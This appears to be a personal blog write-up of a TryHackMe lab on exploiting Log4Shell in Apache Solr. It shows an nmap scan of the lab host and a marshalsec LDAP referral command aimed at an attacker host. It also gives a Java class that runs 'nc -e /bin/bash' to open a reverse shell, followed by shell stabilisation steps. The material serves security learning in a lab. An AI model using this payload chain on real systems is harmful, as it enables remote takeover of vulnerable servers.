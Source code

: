 # TryHackMe: Complete Beginner (Supplements) & Exploiting Log4j

Finishing up the supplemental rooms around the [TryHackMe: Complete Beginner](https://tryhackme.com/path-action/beginner/) sequence and then working through [a special room covering the recently discovered Log4j vulnerabilities](https://tryhackme.com/room/solar) as a fun aside.

## TryHackMe: Complete Beginner (Supplements)

### Retro

See my [Retro](../notes/tryhackme-retro.md) CTF write-up.

## Exploiting Log4j

### Reconnaissance

The target has an IP address of 10.10.177.64. We'll start off with a normal [nmap](../notes/nmap.md) scan, though I'm going to be a bit less aggressive since we're just looking to enumerate ports/services.

```bash
sudo nmap -v -oA solar -A -T4 -sS -p- 10.10.177.64
```

This gives us:

```
# Nmap 7.92 scan initiated Sun Jan  2 20:58:25 2022 as: nmap -v -oA solar -A -T4 -sS -p- 10.10.177.64
Nmap scan report for 10.10.177.64
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:35:e1:4f:4e:87:45:9e:5f:2c:97:e0:da:a9:df:d5 (RSA)
|   256 b2:fd:9b:75:1c:9e:80:19:5d:13:4e:8d:a0:83:7b:f9 (ECDSA)
|_  256 75:20:0b:43:14:a9:8a:49:1a:d9:29:33:e1:b9:1a:b6 (ED25519)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
8983/tcp open  http    Apache Solr
| http-title: Solr Admin
|_Requested resource was http://10.10.177.64:8983/solr/
|_http-favicon: Unknown favicon MD5: ED7D5C39C69262F4BA95418D4F909B10
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=1/2%OT=22%CT=1%CU=42554%PV=Y%DS=4%DC=T%G=Y%TM=61D276A8
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11
OS:NW7%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Uptime guess: 44.471 days (since Fri Nov 19 09:49:52 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT       ADDRESS
1   29.11 ms  10.13.0.1
2   ... 3
4   171.20 ms 10.10.177.64

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan  2 21:08:08 2022 -- 1 IP address (1 host up) scanned in 582.99 seconds
```

The service running on port 8983 has an HTML page title of "Solr Admin", which seems to be part of [Apache Solr](https://solr.apache.org/).

### Proof of Concept

It's still not 100% clear to me why use of LDAP is required to trigger Log4Shell, but I'm *guessing* this is used because it's one of [the protocols that JNDI supports](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface#Background). This makes a little more sense given that JNDI stands for the Java Naming and *Directory* Interface... But it still feels kinda wacky to me that one would store Java objects in... LDAP.

### Exploitation

This section makes the question I wrote above at least a little more clear -- LDAP is providing a URL using a more sensible protocol like HTTP that JNDI is then loading the Java code from. So the sequence is malicious request → LDAP lookup → load Java code over HTTP.

A simple Java LDAP server that will do just this is available at https://github.com/mbechler/marshalsec. It can be built with Apache Maven using the version of OpenJDK supplied with Kali Linux:

```bash
mvn clean package -DskipTests
```

And run with:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://$ATTACKER_IP:$ATTACKER_PORT/#Exploit"
```

Where `$ATTACKER_IP` and `$ATTACKER_PORT` are the IP address and port of an HTTP server that will be used to actually serve up the exploit.

A simple Java exploit that pops a reverse shell (at least on Linux systems with a version of [netcat](../notes/netcat.md) that supports the `-e` switch) is:

```java
public class Exploit {
	static {
		try {
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 1.2.3.4 9999");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
}
```

Where 1.2.3.4 should match `$ATTACKER_IP` above, and 9999 is the port of the local listener. This can be compiled with:

```bash
javac Exploit.java -source 8 -target 8
```

Note that the `-source` and `-target` flags may need to be modified depending on which version of Java the target is running. As with all things Java, the file name and file class name need to match.

### Persistence

Generic netcat shell stabilization steps (when running bash at *both* ends):

* Run `python3 -c "import pty; pty.spawn('/bin/bash')"` on the target.
* Background the reverse shell with Ctrl+Z.
* Run `stty raw -echo` to disable foreground echo (echo will be handled by the target).
* Foreground the reverse shell with `fg` (there won't be any output).
* Hit Enter a couple of times to get back a prompt, and then `export TERM=xterm`.

That should be good enough.

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> January 2, 2022
